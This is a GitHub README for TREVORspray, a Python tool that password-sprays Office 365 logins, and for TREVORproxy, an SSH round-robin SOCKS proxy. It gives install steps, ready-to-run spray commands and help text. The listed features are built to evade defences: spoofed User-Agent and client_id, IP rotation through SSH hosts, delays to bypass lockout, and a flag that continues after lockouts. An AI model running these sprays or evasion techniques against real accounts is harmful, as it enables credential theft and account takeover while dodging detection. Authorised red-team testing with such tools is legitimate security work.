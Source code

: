 ![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)
`#trevorforget`

# TREVORproxy and TREVORspray
TREVORproxy is a SOCKS proxy that round-robins requests through SSH hosts.
TREVORspray is a A featureful Python O365 sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) which uses the [Microsoft Graph API](https://docs.microsoft.com/en-us/graph/overview)

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

Microsoft is getting better and better about blocking password spraying attacks against O365.  **TREVORspray can solve this by proxying its requests through an unlimited number of `--ssh` hosts**.  No weird dependencies or cumbersome setup required - all you need is a cloud VM with port 22 open.

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard and showing me how heckin loud I was being :)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (attempted user/pass combos are remembered in `./logs/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `./logs/trevorspray.log`
- Saves valid usernames to `./logs/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## Example: Spray O365 with 5-second delay between requests
```
$ trevorspray.py -e bob@evilcorp.com -p Fall2020! --delay 5
```

## Example: Spray O365 and round-robin between 3 IPs (the current IP is used as well.)
```
$ trevorspray.py -e emails.txt -p Fall2020! --ssh root@1.2.3.4 root@4.3.2.1 -kp
```

## TREVORspray - Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] -e EMAILS [EMAILS ...] -p PASSWORDS [PASSWORDS ...] [-f] [-d DELAY] [-u URL] [-v] [-s SSH [SSH ...]] [-k KEY] [-b BASE_PORT] [-n]

Execute password sprays against O365, optionally proxying the traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  -u URL, --url URL     The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Show which proxy is being used for each request
  -s SSH [SSH ...], --ssh SSH [SSH ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -b BASE_PORT, --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
  -n, --no-current-ip   Don't spray from the current IP, only use SSH proxies
```

## Known Limitations:
- Untested on Windows
- Currently only works against the M$ Graph API

## TREVORproxy - Help:
```
$ ./trevorproxy.py --help
usage: trevorproxy.py [-h] [-p PORT] [-l LISTEN_ADDRESS] [-v] [-k KEY] [--base-port BASE_PORT] ssh_hosts [ssh_hosts ...]

Spawns a SOCKS server which round-robins requests through the specified SSH hosts

positional arguments:
  ssh_hosts             Round-robin load-balance through these SSH hosts (user@host)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for SOCKS server to listen on (default: 1080)
  -l LISTEN_ADDRESS, --listen-address LISTEN_ADDRESS
                        Listen address for SOCKS server (default: 127.0.0.1)
  -v, --verbose         Print extra debugging info
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```